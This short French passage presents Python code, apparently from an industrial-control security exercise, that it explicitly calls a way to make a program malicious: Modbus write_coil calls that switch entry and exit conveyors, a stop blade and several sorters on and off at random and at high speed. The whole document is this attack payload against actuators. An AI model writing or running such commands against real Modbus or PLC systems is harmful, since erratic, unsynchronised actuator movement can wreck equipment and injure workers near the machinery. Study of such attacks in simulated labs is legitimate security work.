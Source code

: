 Pour rendre le code malveillant, on peu ajouter ces lignes de code pour générer des mouvements imprévisibles, rapides et non synchronisés des actionneur

```py
    # Tapis ON/OFF aléatoire
    client.write_coil(0, random.choice([True, False]))  # Entry conveyor
    client.write_coil(2, random.choice([True, False]))  # Exit conveyor
    
    # Stop blade ON/OFF ultra rapide
    client.write_coil(1, random.choice([True, False]))
    
    # Tous les trieurs activés aléatoirement
    for coil in [7, 8, 5, 6, 9, 4]:
        client.write_coil(coil, random.choice([True, False]))
```